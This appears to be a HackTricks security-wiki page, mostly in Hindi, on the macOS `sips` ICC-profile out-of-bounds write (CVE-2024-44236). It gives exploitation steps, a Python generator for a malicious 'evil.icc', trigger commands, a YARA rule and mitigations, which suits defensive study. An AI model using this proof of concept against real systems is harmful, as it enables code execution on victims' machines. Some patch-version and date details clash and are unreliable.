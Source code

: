 # WWW2Exec - sips ICC Profile Out-of-Bounds Write (CVE-2024-44236)

{{#include ../../banners/hacktricks-training.md}}

## Overview

Apple macOS **Scriptable Image Processing System** (`sips`) ICC प्रोफ़ाइल पार्सर (macOS 15.0.1, `sips-307`) में एक आउट-ऑफ-बाउंड्स **zero-write** भेद्यता एक हमलावर को हीप मेटाडेटा को भ्रष्ट करने और प्राइमिटिव को पूर्ण कोड-एक्ज़ेक्यूशन में बदलने की अनुमति देती है। बग `lutAToBType` (`mAB `) और `lutBToAType` (`mBA `) टैग के `offsetToCLUT` फ़ील्ड के हैंडलिंग में स्थित है। यदि हमलावर `offsetToCLUT == tagDataSize` सेट करते हैं, तो पार्सर **हीप बफर के अंत के 16 बाइट्स को मिटा देता है**। हीप स्प्रेइंग हमलावर को आवंटक संरचनाओं या C++ पॉइंटर्स को ज़ीरो-आउट करने की अनुमति देती है, जिन्हें बाद में डेरिफ़रेंस किया जाएगा, जिससे एक **arbitrary-write-to-exec** चेन (CVE-2024-44236, CVSS 7.8) उत्पन्न होती है।

> Apple ने macOS Sonoma 15.2 / Ventura 14.7.1 (30 अक्टूबर, 2024) में बग को पैच किया। एक दूसरा वेरिएंट (CVE-2025-24185) को 1 अप्रैल, 2025 को macOS 15.5 और iOS/iPadOS 18.5 में ठीक किया गया।

## Vulnerable Code
```c
// Pseudocode extracted from sub_1000194D0 in sips-307 (macOS 15.0.1)
if (offsetToCLUT <= tagDataSize) {
// BAD ➜ zero 16 bytes starting *at* offsetToCLUT
for (uint32_t i = offsetToCLUT; i < offsetToCLUT + 16; i++)
buffer[i] = 0;            // no bounds check vs allocated size!
}
```
## Exploitation Steps

1. **एक दुर्भावनापूर्ण `.icc` प्रोफ़ाइल तैयार करें**

* एक न्यूनतम ICC हेडर (`acsp`) सेट करें और एक `mAB ` (या `mBA `) टैग जोड़ें।
* टैग तालिका को इस तरह कॉन्फ़िगर करें कि **`offsetToCLUT` टैग आकार के बराबर हो** (`tagDataSize`)।
* हमलावर-नियंत्रित डेटा को टैग के ठीक बाद रखें ताकि 16 शून्य लेखन आवंटक मेटाडेटा के साथ ओवरलैप हो जाएं।

2. **प्रोफ़ाइल को छूने वाले किसी भी sips ऑपरेशन के साथ पार्सिंग को ट्रिगर करें**

```bash
# सत्यापन पथ (आउटपुट फ़ाइल की आवश्यकता नहीं)
sips --verifyColor evil.icc
# या जब प्रोफ़ाइल को एम्बेड करने वाली छवियों को परिवर्तित करते समय अप्रत्यक्ष रूप से
sips -s format png payload.jpg --out out.png
```

3. **हीप मेटाडेटा भ्रष्टाचार ➜ मनमाना लेखन ➜ ROP**
Apple के डिफ़ॉल्ट **`nano_zone` आवंटक** पर, 16-बाइट स्लॉट के लिए मेटाडेटा **सही तरीके से संरेखित 0x1000 स्लैब के तुरंत बाद** रहता है। ऐसे स्लैब के अंत में प्रोफ़ाइल का टैग रखकर, 16 शून्य-लेखन `meta->slot_B` को क्लॉबर कर देते हैं। एक बाद के `free` के बाद, विषाक्त पॉइंटर को छोटे मुक्त सूची में कतारबद्ध किया जाता है, जिससे हमलावर को **किसी भी पते पर एक नकली ऑब्जेक्ट आवंटित करने** और sips द्वारा उपयोग किए जाने वाले C++ vtable पॉइंटर को ओवरराइट करने की अनुमति मिलती है, अंततः निष्पादन को दुर्भावनापूर्ण ICC बफर में संग्रहीत ROP श्रृंखला पर पिवट करते हैं।

### त्वरित PoC जनरेटर (Python 3)
```python
#!/usr/bin/env python3
import struct, sys

HDR = b'acsp'.ljust(128, b'\0')          # ICC header (magic + padding)
TAGS = [(b'mAB ', 132, 52)]              # one tag directly after header
profile  = HDR
profile += struct.pack('>I', len(TAGS))  # tag count
profile += b''.join(struct.pack('>4sII', *t) for t in TAGS)

mab = bytearray(52)                      # tag payload (52 bytes)
struct.pack_into('>I', mab, 44, 52)      # offsetToCLUT = size (OOB start)
profile += mab

open('evil.icc', 'wb').write(profile)
print('[+] Wrote evil.icc (%d bytes)' % len(profile))
```
### YARA पहचान नियम
```yara
rule ICC_mAB_offsetToCLUT_anomaly
{
meta:
description = "Detect CLUT offset equal to tag length in mAB/mBA (CVE-2024-44236)"
author       = "HackTricks"
strings:
$magic = { 61 63 73 70 }          // 'acsp'
$mab   = { 6D 41 42 20 }          // 'mAB '
$mba   = { 6D 42 41 20 }          // 'mBA '
condition:
$magic at 0 and
for any i in (0 .. 10):           // up to 10 tags
(
($mab at 132 + 12*i or $mba at 132 + 12*i) and
uint32(132 + 12*i + 4) == uint32(132 + 12*i + 8) // offset == size
)
}
```
## प्रभाव

एक तैयार ICC प्रोफ़ाइल को खोलने या संसाधित करने से दूरस्थ **मनमाना कोड निष्पादन** होता है जो उपयोगकर्ता के संदर्भ में होता है (पूर्वावलोकन, क्विकलुक, सफारी छवि रेंडरिंग, मेल अटैचमेंट, आदि), गेटकीपर को बायपास करते हुए क्योंकि प्रोफ़ाइल को अन्यथा निर्दोष छवियों (PNG/JPEG/TIFF) के अंदर एम्बेड किया जा सकता है।

## पहचान और शमन

* **पैच करें!** सुनिश्चित करें कि होस्ट macOS ≥ 15.2 / 14.7.1 (या iOS/iPadOS ≥ 18.1) चला रहा है।
* ईमेल गेटवे और EDR समाधानों पर ऊपर दिए गए YARA नियम को लागू करें।
* अविश्वसनीय फ़ाइलों पर आगे की प्रक्रिया से पहले `exiftool -icc_profile= -overwrite_original <file>` के साथ एम्बेडेड ICC प्रोफ़ाइल को स्ट्रिप या सैनीटाइज करें।
* अज्ञात सामग्री का विश्लेषण करते समय पूर्वावलोकन/क्विकलुक को "पारदर्शिता और आधुनिकीकरण" VMs के अंदर सैंडबॉक्स में चलाकर मजबूत करें।
* DFIR के लिए, एकीकृत लॉग में सैंडबॉक्स ऐप्स द्वारा `sips --verifyColor` या `ColorSync` पुस्तकालय लोड के हाल के निष्पादन की तलाश करें।

## संदर्भ

* Trend Micro Zero Day Initiative सलाह ZDI-24-1445 – “Apple macOS ICC Profile Parsing Out-of-Bounds Write Remote Code Execution (CVE-2024-44236)”
https://www.zerodayinitiative.com/advisories/ZDI-24-1445/
* Apple सुरक्षा अपडेट HT213981 “macOS Sonoma 15.2 की सुरक्षा सामग्री के बारे में”
https://support.apple.com/en-us/HT213981

{{#include ../../banners/hacktricks-training.md}}
